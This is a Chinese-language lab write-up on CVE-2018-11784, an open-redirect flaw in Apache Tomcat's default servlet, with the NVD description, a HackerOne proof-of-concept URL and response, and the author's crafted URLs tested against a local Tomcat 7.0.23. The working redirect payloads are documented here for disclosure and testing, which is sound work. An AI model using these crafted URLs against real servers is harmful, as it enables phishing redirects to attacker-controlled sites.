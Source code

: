 # Tomcat URL跳转漏洞

### 这个漏洞是有CVE的CVE-2018-11784，这是一个任意URL跳转漏洞，具体案例可以参考H1的一个漏洞，https://hackerone.com/reports/387007

- CVE描述：

https://nvd.nist.gov/vuln/detail/CVE-2018-11784

当前当Apache Tomcat版本在9.0.0.M1到9.0.11、8.5.0到8.5.33和7.0.23到7.0.90中的默认servlet返回到一个目录的重定向（例如，当用户请求'/foo'时重定向到'/foo/’）存在安全漏洞，

攻击者构造一个特制的URL可以将请求重定向到攻击者所控制的任意网站上去。

- 根据H1的漏洞，它的POC 即 EXP 也是：【这是真EXP的】
```
构造请求：
https://idp.fr.cloud.gov//blackfan.ru/..;/css

HTTP 响应如下：
HTTP/1.1 302 Found
...
Location: //blackfan.ru/..;/css/
...

打开了https://blackfan.ru/..;/css/ 恶意地址

```

- 本地项目 Tomcat 7.0.23

```
➜  webapps tree -d -L 2
.
├── S2-005
│   ├── META-INF
│   ├── WEB-INF
│   └── example
├── VulDemo
│   ├── META-INF
│   ├── WEB-INF
│   ├── css
│   ├── images
│   ├── js
│   ├── testme.com
│   └── tools
├── fastjson-1.0
│   ├── META-INF
│   └── WEB-INF
└── smartbi
    ├── META-INF
    ├── WEB-INF
    ├── app
    └── vision

20 directories
```
- 实测构造有效POC如下：

```
几个应用的访问URL如下：
http://192.168.0.6:8080/S2-005/example/HelloWorld.action
http://192.168.0.6:8080/fastjson-1.0/
http://192.168.0.6:8080/smartbi/vision/config.jsp
http://192.168.0.6:8080/VulDemo/
http://192.168.0.6:8080/VulDemo/js/login.js

哪么可以构造有效的POC部分如下：
http://192.168.0.6:8080//baidu.com//..;..;/S2-005/example

http://192.168.0.6:8080//baidu.com//..;/smartbi/vision
http://192.168.0.6:8080//baidu.com//..;/smartbi/vision/index.jsp
http://192.168.0.6:8080//baidu.com/..;/VulDemo/js
这些均会跳转到baidu.com站点
```
